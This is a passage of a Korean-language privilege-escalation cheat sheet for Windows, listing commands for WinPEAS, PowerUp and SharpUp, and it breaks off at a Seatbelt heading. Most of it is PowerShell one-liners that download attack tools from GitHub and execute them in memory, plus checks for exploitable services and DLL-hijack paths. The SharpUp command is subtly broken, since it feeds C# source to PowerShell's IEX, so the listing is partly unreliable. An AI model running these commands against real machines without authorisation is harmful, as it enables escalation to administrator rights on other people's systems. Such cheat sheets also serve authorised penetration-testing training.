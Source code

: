 ## 🤖 자동화 도구 활용

### 🔍 WinPEAS (가장 추천)

```cmd
:: WinPEAS 다운로드 및 실행
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat')"

:: 또는 실행 파일 다운로드
powershell -c "Invoke-WebRequest -Uri 'https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe' -OutFile 'winPEAS.exe'"
winPEAS.exe

:: 결과를 파일로 저장
winPEAS.exe > winpeas_output.txt

:: 특정 모듈만 실행 (빠른 실행)
winPEAS.exe cmd fast
```

### 🎯 PowerUp

```powershell
# PowerUp 다운로드 및 실행
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# 모든 취약점 검사
Invoke-AllChecks

# 개별 검사 실행
Get-UnquotedService
Get-ModifiableService
Get-ModifiableServiceFile
Get-ServiceUnquoted
Find-ProcessDLLHijack
Find-PathDLLHijack
```

### 🔧 SharpUp

```cmd
:: SharpUp 실행 (C# 컴파일된 버전)
SharpUp.exe

:: 또는 PowerShell에서
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/GhostPack/SharpUp/master/SharpUp/Program.cs')"
```

### 🕵️ Seatbelt
